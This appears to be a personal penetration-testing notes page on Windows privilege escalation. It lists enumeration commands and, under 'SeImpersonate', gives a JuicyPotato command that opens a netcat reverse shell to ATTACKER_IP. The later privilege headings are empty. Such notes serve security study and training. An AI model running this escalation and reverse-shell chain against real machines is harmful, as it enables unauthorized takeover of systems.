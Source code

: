 ```yaml
---
title: Notes | Windows Privilege Escalation
author: BatBato
date: 2022-09-02
categories: [Notes, Privilege Escalation, Windows_PE]
tags: [Web, Privilege Escalation, Windows, PE, Administrator]
permalink: /Notes/Privilege_Escalation/Windows_PE
---
```


# Windows Privilege Escalation

As with the Linux operating system, a misconfigured Windows machine can allow an attacker to gain ```Administrator``` or ```NT AUTHORITY\SYSTEM``` rights. While the ```Administrator``` is a user on any Windows machine, ```NT AUTHORITY\SYSTEM```, often called ```SYSTEM```, is an account that has the most rights but to which you cannot log in with credentials.

> For reading purpose, I won't tell if we are using a ```CMD``` console when running a command but will display a command that uses ```Powershell``` like ```PS> COMMAND```.
{: .prompt-danger }

## Network Information Gathering

### IPconfig

As for a Linux machine, we may want to check for the network of the machine. We can print information about its internet network with the command ```ipconfig``` :
```console
ipconfig /all
```
This will allow us to know if there is more than one network interface which can be leveraged to access a computer on a sub-network.

### ARP

We can use the ```arp``` command to check for other computers on the network like this :

```console
arp -a
```

### Routing Table

The routing table can show us what routes can packages take on the network :

```console
route print
```

### Netstat

The ```netstat``` command can show us if there is any service running on the machine that may be leveraged :

```console
netstat -ano
```

### Windows Defender & AppLocker Rules

To display information about ```Windows Defender``` or the ```AppLocker``` rules we can run the followinf commands :
```console
PS > Get-MpComputerStatus
```
```console
PS > Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## Basic Enumeration

It's important to have information about the computer we are attacking. Like on Linux, we can, for example, list the running processes with the ```tasklist``` command :

```console
tasklist /svc
```

### System information

We can list environment variables with the ```set``` command. With the ```systeminfo``` we can get a lot of information about the computer we are in like the host name, the OS Version, the type of processor used...

To see if a machine is up to date, we can look to its ```hotfixes``` with the following command and by checking the Microsoft website:
```console
wmic qfe
```
or
```console
PS > Get-HotFix | ft -AutoSize
```

#### Program installed

We can check for non-standard applications that may have been installed by a user or an administrator :

```console
wmic product get name
```
or
```console
PS > Get-WmiObject -Class Win32_Product |  select Name, Version
```

#### RPC

A user can connect to a machine with the RPC protocol. We can look if another user is connected on our machine with the ```query user``` command. If you want to know how to impersonate this user check [this part of my blog](https://nouman404.github.io/Notes/Footprinting/Common_Services_Enumeration_&_Attacks#rdp-session-hijacking).

### Current User Privileges

When we arrive on a machine we may want to know which user we are or what are our rights. To check our user we can use the ```whoami``` or the ```echo %USERNAME%``` command. To see which rights our user has we can run the command ```whoami /priv``` and if we are a classic user we may get this output.

```console
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

> As you can see, we have some privileges that are disabled. You can enable them all using [this script](https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1)
{: .prompt-tip }

We may want to check which group we are in because we can inherit privileges from certain.

```console
whoami /groups
```

We may also want to look for other users with the ```net user``` command or the list of all groups with this ```net localgroup``` command. To get information about a certain group you can use ```net localgroup GROUP_TO_CHECK```.


## Exploit User Rights

### SeImpersonate

Every process in Windows has a token that contains details about the account that is operating it. Since these tokens are merely memory addresses that can be brute-forced by users who are unable to access memory, they are not thought of as secure resources. The ```SeImpersonate``` privilege is required to use the token. Only administrator accounts are granted access to it, and in most circumstances, it can be taken away during system hardening.

We are going to use [JuicyPotato](https://github.com/ohpe/juicy-potato) that can be used to exploit the ```SeImpersonate``` or ```SeAssignPrimaryToken``` privileges via DCOM/NTLM reflection abuse. Start a netcat listener on your attacker machine and then launch this command :

```console
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe ATTACKER_IP ATTACKER_PORT -e cmd.exe" -t *
```

> You may get issues if you don't put the full path of a file.
{: .prompt-tip }

> If you are not running the exploit from a running process like an SQL server. You may need to add the ```-c``` flag. The add a value, depending on the machine you are on, from [here](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md). If the first value doesn't work try the second, then the third... until it works.
{: .prompt-warning }



### SeAssignPrimaryToken

### SeDebugPrivilege

### SeTakeOwnershipPrivilege




